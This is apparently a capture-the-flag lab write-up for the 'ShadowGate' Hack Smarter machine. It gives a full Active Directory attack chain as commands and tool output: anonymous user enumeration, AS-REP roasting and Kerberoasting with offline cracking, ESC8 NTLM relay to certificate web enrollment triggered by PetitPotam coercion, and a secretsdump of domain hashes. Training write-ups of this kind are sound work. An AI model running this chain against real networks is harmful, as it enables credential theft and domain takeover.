

# ShadowGate

## **Objective**

**ShadowGate** recently completed a corporate acquisition that significantly expanded its internal network, user base, and application footprint. Several business-critical systems were migrated and consolidated under tight operational deadlines to minimize downtime and maintain service continuity.

While functional validation was completed, the organization deferred a comprehensive security assessment due to delivery pressure and staffing constraints. Leadership has since requested an independent penetration test to validate the security posture of the newly created environment and identify any material risk before the next audit cycle.

The assessment will evaluate whether a motivated attacker with standard network access could compromise sensitive systems, escalate privileges, or move laterally within the enterprise environment.

The Hack Smarter team has been authorized to perform a black box internal penetration test against the ShadowGate environment.

---

This is the IP I received. I will name it as `shadowgate.hsm` first

```bash
10.1.43.16      shadowgate.hsm
```

Append the above into `/etc/hosts`

---

## Port Scan

First, we conduct a port scan to see the open ports. I can’t use the `-A` flag in Nmap because it is quite unstable in this machine.

```bash
─$ rustscan -a shadowgate.hsm -- -oN nmap.log                                                                                                                                                                                              
...
Scanning shadowgate.hsm (10.1.43.16) [24 ports]
Discovered open port 50865/tcp on 10.1.43.16
Discovered open port 80/tcp on 10.1.43.16
Discovered open port 139/tcp on 10.1.43.16
Discovered open port 53/tcp on 10.1.43.16
Discovered open port 3389/tcp on 10.1.43.16
Discovered open port 135/tcp on 10.1.43.16
Discovered open port 445/tcp on 10.1.43.16
Discovered open port 9389/tcp on 10.1.43.16
Discovered open port 50925/tcp on 10.1.43.16
Discovered open port 49667/tcp on 10.1.43.16
Discovered open port 50891/tcp on 10.1.43.16
Discovered open port 3268/tcp on 10.1.43.16
Discovered open port 389/tcp on 10.1.43.16
Discovered open port 88/tcp on 10.1.43.16
Discovered open port 593/tcp on 10.1.43.16
Discovered open port 50877/tcp on 10.1.43.16
Discovered open port 49670/tcp on 10.1.43.16
Discovered open port 636/tcp on 10.1.43.16
Discovered open port 5985/tcp on 10.1.43.16
Discovered open port 464/tcp on 10.1.43.16
Discovered open port 50908/tcp on 10.1.43.16
Discovered open port 3269/tcp on 10.1.43.16
Discovered open port 50863/tcp on 10.1.43.16
Discovered open port 49664/tcp on 10.1.43.16
Completed SYN Stealth Scan at 21:48, 0.50s elapsed (24 total ports)
Nmap scan report for shadowgate.hsm (10.1.43.16)
Host is up, received echo-reply ttl 126 (0.24s latency).
Scanned at 2026-08-16 21:48:29 HKT for 1s

PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 126
80/tcp    open  http             syn-ack ttl 126
88/tcp    open  kerberos-sec     syn-ack ttl 126
135/tcp   open  msrpc            syn-ack ttl 126
139/tcp   open  netbios-ssn      syn-ack ttl 126
389/tcp   open  ldap             syn-ack ttl 126
445/tcp   open  microsoft-ds     syn-ack ttl 126
464/tcp   open  kpasswd5         syn-ack ttl 126
593/tcp   open  http-rpc-epmap   syn-ack ttl 126
636/tcp   open  ldapssl          syn-ack ttl 126
3268/tcp  open  globalcatLDAP    syn-ack ttl 126
3269/tcp  open  globalcatLDAPssl syn-ack ttl 126
3389/tcp  open  ms-wbt-server    syn-ack ttl 126
5985/tcp  open  wsman            syn-ack ttl 126
9389/tcp  open  adws             syn-ack ttl 126
49664/tcp open  unknown          syn-ack ttl 126
49667/tcp open  unknown          syn-ack ttl 126
49670/tcp open  unknown          syn-ack ttl 126
50863/tcp open  unknown          syn-ack ttl 126
50865/tcp open  unknown          syn-ack ttl 126
50877/tcp open  unknown          syn-ack ttl 126
50891/tcp open  unknown          syn-ack ttl 126
50908/tcp open  unknown          syn-ack ttl 126
50925/tcp open  unknown          syn-ack ttl 126

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.88 seconds
           Raw packets sent: 28 (1.208KB) | Rcvd: 25 (1.084KB)
```

We can see some interesting ports, including:

- Port 53 (DNS)
- Port 80 (HTTP)
- Port 88 (Kerberos)
- Port 135 (RPC)
- Port 139/445 (SMB)

---

## IIS (Port 80)

Navigate to the HTTP webpage, we will see it is just a Internet Information Services (IIS)



---

## SMB (Port 445)

We can first take a look at the available shares using no credentials, but we got access denied

```bash
└─$ nxc smb shadowgate.hsm -u '' -p '' --shares
SMB         10.1.43.16      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:shadow.gate) (signing:False) (SMBv1:None)
SMB         10.1.43.16      445    DC01             [+] shadow.gate\: 
SMB         10.1.43.16      445    DC01             [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

How about users? We can see a look of results

```bash
└─$ nxc smb shadowgate.hsm -u '' -p '' --users
SMB         10.1.43.16      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:shadow.gate) (signing:False) (SMBv1:None)
SMB         10.1.43.16      445    DC01             [+] shadow.gate\: 
SMB         10.1.43.16      445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.1.43.16      445    DC01             Administrator                 2026-01-11 11:33:05 0       Built-in account for administering the computer/domain 
SMB         10.1.43.16      445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.1.43.16      445    DC01             krbtgt                        2026-01-12 02:45:27 0       Key Distribution Center Service Account 
SMB         10.1.43.16      445    DC01             ATHENA                        2026-03-04 15:23:19 0        
SMB         10.1.43.16      445    DC01             mbrownlee                     2026-03-04 15:24:05 0        
SMB         10.1.43.16      445    DC01             bbrown                        2026-01-15 14:24:07 0        
SMB         10.1.43.16      445    DC01             jtrueblood                    2026-04-28 18:14:47 0        
SMB         10.1.43.16      445    DC01             jsmith                        2026-03-04 15:26:29 0        
SMB         10.1.43.16      445    DC01             clocke                        2026-03-04 15:24:32 0        
SMB         10.1.43.16      445    DC01             tclarke                       2026-03-04 15:25:33 0        
SMB         10.1.43.16      445    DC01             jbradford                     2026-03-04 15:24:59 0        
SMB         10.1.43.16      445    DC01             amoss                         2026-03-04 15:25:52 0        
SMB         10.1.43.16      445    DC01             [*] Enumerated 12 local users: SHADOW

```

We learn that the domain is `shadow.gate`, which we can modify our `/etc/hosts`

We can store the list of users under a text file called `users.txt`, and it will come into handy later.

```bash
└─$ cat users.txt 
Administrator
Guest
krbtgt
ATHENA
mbrownlee
bbrown
jtrueblood
jsmith
clocke 
tclarke
jbradford
amoss
```

---

## AS-REP Roasting

Authentication Server-Response (AS-REP) Roasting targets users with pre-authentication turned off.

**Pre-Authentication**

In Kerberos Authentication, the user is trying to authenticate himself to the KDC that he is the claimed principle by encrypting the nonce with the secret key derived from the password. It is called **AS-REQ**

The server can then use then verify the request. If it is valid, the KDC will send back the **AS-REP**, containing the **Ticket Granting Ticket** (TGT), with a **session key** that is encrypted by the user’s **NT hash**.

Without it, anyone can request for the TGT of a principle, and able to crack the password offline.

A detailed explanation can be found in [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/roasting/asreproast).

**Exploitation**

For now, we can refer to [HackTricks]([https://hacktricks.wiki/en/windows-hardening/active-directory-methodology/asreproast.html](https://hacktricks.wiki/en/windows-hardening/active-directory-methodology/asreproast.html)) for the exploitation.

The tool I picked is from the Impacket toolkit, called the GetNPUsers.

here are the flags that I used and their purpose

- `-no-pass`: Do not ask for the password
- `-usersfile`: Import a list of user, one at a line

With this, we can launch the exploitation

```bash
└─$ impacket-GetNPUsers -no-pass -usersfile users.txt shadow.gate/                                                                                                                                                                          
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User ATHENA doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mbrownlee doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User bbrown doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$jtrueblood@SHADOW.GATE:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[-] User jsmith doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User clocke doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User tclarke doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jbradford doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User amoss doesn't have UF_DONT_REQUIRE_PREAUTH set
```

The `jtrueblood`  account has pre-authentication disabled, and therefore we can obtain its hash.

**Offline Dictionary Attack**

The hash can be cracked very easily and get the password.

```bash
└─$ john jtrueblood.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 512/512 AVX512BW 16x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxxxxxxxxxxxx   ($krb5asrep$23$jtrueblood@SHADOW.GATE)     
1g 0:00:00:06 DONE (2026-08-16 23:21) 0.1636g/s 1568Kp/s 1568Kc/s 1568KC/s
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

As a sanity check, we can verify whether we can authenticate to the server successfully.

```bash
└─$ nxc smb shadow.gate -u jtrueblood -p $jtrueblood_pw --verbose
[23:22:51] INFO     Socket info: host=10.1.43.16, hostname=shadow.gate, kerberos=False, ipv6=False, link-local ipv6=False                                                                                                  connection.py:177
           INFO     Creating SMBv1 connection to 10.1.43.16                                                                                                                                                                       smb.py:595
           INFO     SMBv1 disabled on 10.1.43.16                                                                                                                                                                                  smb.py:618
           INFO     Creating SMBv3 connection to 10.1.43.16                                                                                                                                                                       smb.py:626
[23:22:53] INFO     Resolved domain: shadow.gate with dns, kdcHost: 10.1.43.16                                                                                                                                                    smb.py:315
SMB         10.1.43.16      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:shadow.gate) (signing:False) (SMBv1:None)
           INFO     Creating SMBv1 connection to 10.1.43.16                                                                                                                                                                       smb.py:595
           INFO     SMBv1 disabled on 10.1.43.16                                                                                                                                                                                  smb.py:618
           INFO     Creating SMBv3 connection to 10.1.43.16                                                                                                                                                                       smb.py:626
SMB         10.1.43.16      445    DC01             [+] shadow.gate\jtrueblood:xxxxxxxxxxxxxxxx

```

---

## BloodHound

With our first owned account `jtrueblood`, we can use BloodHound and gather loots in the domain.

```bash
└─$ nxc ldap shadow.gate -u jtrueblood -p $jtrueblood_pw --bloodhound -c All --dns-server 10.1.43.16
LDAP        10.1.43.16      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:shadow.gate) (signing:None) (channel binding:Never) 
LDAP        10.1.43.16      389    DC01             [+] shadow.gate\jtrueblood:xxxxxxxxxxxxx
LDAP        10.1.43.16      389    DC01             Resolved collection methods: acl, adcs, container, dcom, group, localadmin, loggedon, objectprops, psremote, rdp, session, trusts
LDAP        10.1.43.16      389    DC01             Excluded collection methods: 
LDAP        10.1.43.16      389    DC01             Bloodhound data collection completed in 0M 48S
LDAP        10.1.43.16      389    DC01             Collecting ADCS data (CertiHound)...
LDAP        10.1.43.16      389    DC01             Found 0 certificate templates
LDAP        10.1.43.16      389    DC01             Found 1 Enterprise CAs
LDAP        10.1.43.16      389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.1.43.16_2026-08-16_232457_bloodhound.zip
```

Importing it to BloodHound, we will see that there is only one outbound control for `jtrueblood`, and that is GenericWrite to the `bbrown` account.


## Target Kerberoasting

**Target Kerberoasting**

[The Hacker Recipes](https://www.thehacker.recipes/ad/movement/dacl/targeted-kerberoasting) has explained Target Kerberoasting well.

> 
> 
> 
> This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `WriteProperty` or `Validated-SPN` over the target. A member of the [**Account Operator**](https://www.thehacker.recipes/ad/movement/builtins/security-groups) group usually has those permissions.
> 
> The attacker can add an SPN (`ServicePrincipalName`) to that account. Once the account has an SPN, it becomes vulnerable to [**Kerberoasting**](https://www.thehacker.recipes/ad/movement/kerberos/roasting/kerberoast). This technique is called Targeted Kerberoasting.
> 

**Exploitation**

Using [targetKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast), it will have you do the kerberoasting and return the password hash to you.

```bash
└─$ python targetedKerberoast.py -d shadow.gate -u jtrueblood -p $jtrueblood_pw -v
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (bbrown)
[+] Printing hash for (bbrown)
$krb5tgs$23$*bbrown$SHADOW.GATE$shadow.gate/bbrown*$xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

**Offline Cracking**

Similar as before, we can obtain the password using john

```bash
└─$ john bbrown.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxxxx        (?)     
1g 0:00:00:00 DONE (2026-08-16 23:40) 50.00g/s 102400p/s 102400c/s 102400C/s 
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

Using this pair of credentials, we can successfully authenticate to the server.

```bash
└─$ nxc smb shadow.gate -u bbrown -p $bbrown_pw     
SMB         10.1.43.16      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:shadow.gate) (signing:False) (SMBv1:None)
SMB         10.1.43.16      445    DC01             [+] shadow.gate\bbrown:xxxxxxxx
```

## Active Directory Certificate Service Exploitation

When we look at the groups `bbrown` is in, we can find there is one called as the Certificate Service DCOM Access


The Active Directory Certificate Service (ADCS) takes care everything related to Public Key Infrastructure and certificates.

Enterprise Subordinate CA Abuses (ESC) utilize some misconfigurations in ADCS to do harm. [Vaadata]([https://www.vaadata.com/en/blog/ad-cs-security-understanding-and-exploiting-esc-techniques/](https://www.vaadata.com/en/blog/ad-cs-security-understanding-and-exploiting-esc-techniques/)) had already introduced them quite well.

To kickstart, we would need to learn more about the certificate Authority and the certificate templates in the system. We can use Certipy to locate the vulnerable and enable

```bash
└─$ certipy-ad find -dc-ip 10.1.43.16 -u bbrown -p $bbrown_pw -enabled -vulnerable -text
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'shadow-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'shadow-DC01-CA'
[*] Checking web enrollment for CA 'shadow-DC01-CA' @ 'DC01.shadow.gate'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Saving text output to '20260816234636_Certipy.txt'
[*] Wrote text output to '20260816234636_Certipy.txt'
```

The result will be stored in a text file. When we open it, we found that it is vulnerable to ESC8.

```bash
Certificate Authorities
  0
    CA Name                             : shadow-DC01-CA
    DNS Name                            : DC01.shadow.gate
    Certificate Subject                 : CN=shadow-DC01-CA, DC=shadow, DC=gate
    Certificate Serial Number           : 749A4BA2BEA3CFBC41ECDFAEE502E46C
    Certificate Validity Start          : 2026-01-12 02:50:31+00:00
    Certificate Validity End            : 2046-01-12 03:00:31+00:00
    Web Enrollment
      HTTP
        Enabled                         : True
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SHADOW.GATE\Administrators
      Access Rights
        ManageCa                        : SHADOW.GATE\Administrators
                                          SHADOW.GATE\Domain Admins
                                          SHADOW.GATE\Enterprise Admins
        ManageCertificates              : SHADOW.GATE\Administrators
                                          SHADOW.GATE\Domain Admins
                                          SHADOW.GATE\Enterprise Admins
        Enroll                          : SHADOW.GATE\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled over HTTP.
Certificate Templates                   : [!] Could not find any certificate templates
```

**ESC8**

According to [Vaadata](https://www.vaadata.com/en/blog/ad-cs-security-understanding-and-exploiting-esc-techniques/#aioseo-esc8-ntlm-relay-on-ad-cs-web-enrolment)

> 
> 
> 
> ESC8 is one of the most frequently encountered exploitation scenarios in internal auditing. It presents a particularly high risk because it can be exploited without any domain account, making it a prime target for an external attacker who already has a favourable network position.
> 
> The central condition for this attack is the presence of the Enrollment web service enabled on the AD CS server. This service allows a client to submit a certificate request via a web interface, typically accessible via the URL `http://<server_name>/certsrv`. If this service is enabled and poorly secured, it becomes possible to relay NTLM authentication from another host (such as a domain controller) to the CA server.
> 

To verify whether it is vulnerable, we can try to access to `http://shadow.gate/certsrv`


So we can see the Enrollment web service is enabled.

**Exploitation**

Take a look on the DomainController Template

```jsx
"18": {
      "Template Name": "DomainController",
      "Display Name": "Domain Controller",
      "Certificate Authorities": [
        "shadow-DC01-CA"
      ],
      "Enabled": true,
      "Client Authentication": true,
      "Enrollment Agent": false,
      "Any Purpose": false,
      "Enrollee Supplies Subject": false,
      "Certificate Name Flag": [
        16777216,
        134217728,
        268435456
      ],
      "Enrollment Flag": [
        1,
        8,
        32
      ],
      "Extended Key Usage": [
        "Client Authentication",
        "Server Authentication"
      ],
      "Requires Manager Approval": false,
      "Requires Key Archival": false,
      "Authorized Signatures Required": 0,
      ...
      "Template Last Modified": "2026-01-15 01:57:45+00:00",
      "Permissions": {
        "Enrollment Permissions": {
          "Enrollment Rights": [
            "SHADOW.GATE\\Enterprise Read-only Domain Controllers",
            "SHADOW.GATE\\Domain Admins",
            "SHADOW.GATE\\Domain Controllers",
            "SHADOW.GATE\\Enterprise Admins",
            "SHADOW.GATE\\Enterprise Domain Controllers"
          ]
        },
        ...
```

We can see that Client Authentication is true, meaning it support PKINIT. Also `"SHADOW.GATE\\Domain Controllers"`  has the enrollment rights, meaning we can relay the NTLM authentication and approved by ADCS.

For the detailed exploitation, [0xbob](https://0xb0b.gitbook.io/writeups/hack-smarter-labs/2026/shadowgate) already gives a very well-written writeup. 
We first initialize `impacket-ntlmrelayx` to listen for incoming SMB authentication requests and relay them to the domain's Active Directory Certificate Services (AD CS) HTTP enrollment endpoint 

```bash
└─$ impacket-ntlmrelayx -t http://shadow.gate/certsrv/test.asp -smb2support --adcs --template DomainController
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client RPC loaded..
[*] Protocol Client WINRMS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80                                                                                                                                                                                                       
[*] Setting up WCF Server on port 9389                                                                                                                                                                                                      
[*] Setting up RAW Server on port 6666                                                                                                                                                                                                      
[*] Setting up WinRM (HTTP) Server on port 5985                                                                                                                                                                                             
[*] Setting up WinRMS (HTTPS) Server on port 5986                                                                                                                                                                                           
[*] Setting up RPC Server on port 135                                                                                                                                                                                                       
[*] Multirelay disabled                                                                                                                                                                                                                     
                                                                                                                                                                                                                                            
[*] Servers started, waiting for connections                                                                                                                                                                                                
```

Upon receiving the incoming SMB authentication attempt from the Domain Controller, `ntlmrelayx` intercepts the NetNTLM challenge-response handshake and relays it to the AD CS Web Enrollment interface.

```bash
└─$ python3 PetitPotam.py -u bbrown -p $bbrown_pw 10.200.82.91 10.1.43.16                                                                                                                                                                   
/opt/PetitPotam/PetitPotam.py:23: SyntaxWarning: invalid escape sequence '\ '
  | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __

                                                                                               
              ___            _        _      _        ___            _                     
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
                                         
              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)
      
                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN

Trying pipe lsarpc
[-] Connecting to ncacn_np:10.1.43.16[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

Go back to `ntlmrelayx`, we can see that the domain controller has authenticated to us, and then we relay to the CS enrollment web service to obtain the certificate.

```bash
[*] (SMB): Received connection from 10.1.43.16, attacking target http://shadow.gate                                                                                                                                                         
[*] HTTP server returned error code 404, treating as a successful login                                                                                                                                                                     
[*] (SMB): Authenticating connection from /@10.1.43.16 against http://shadow.gate SUCCEED [1]
[*] http:///@shadow.gate [1] -> Generating CSR...
[*] http:///@shadow.gate [1] -> CSR generated!
[*] http:///@shadow.gate [1] -> Getting certificate...
[*] (SMB): Received connection from 10.1.43.16, attacking target http://shadow.gate
[*] http:///@shadow.gate [1] -> GOT CERTIFICATE! ID 3
[*] HTTP server returned error code 404, treating as a successful login
[*] (SMB): Authenticating connection from /@10.1.43.16 against http://shadow.gate SUCCEED [2]
[*] http:///@shadow.gate [1] -> Writing PKCS#12 certificate to ./DC01.shadow.gate.pfx
...
```

We can finally obtain the hash of `dc01$`

```bash
└─$ certipy-ad auth -pfx DC01.shadow.gate.pfx -dc-ip 10.1.43.16
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'DC01.shadow.gate'
[*]     Security Extension SID: 'S-1-5-21-243493930-1113464705-3012771586-1000'
[*] Using principal: 'dc01$@shadow.gate'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'dc01.ccache'
[*] Wrote credential cache to 'dc01.ccache'
[*] Trying to retrieve NT hash for 'dc01$'
[*] Got hash for 'dc01$@shadow.gate': xxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxx
```

Finally we can dump the hashes using `secretdump`

```bash
─$ impacket-secretsdump 'dc01$@shadow.gate' -dc-ip 10.1.43.16 -hashes xxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxx
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:xxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxx:::
Guest:501:xxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxx:::
krbtgt:502:xxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxx:::
```
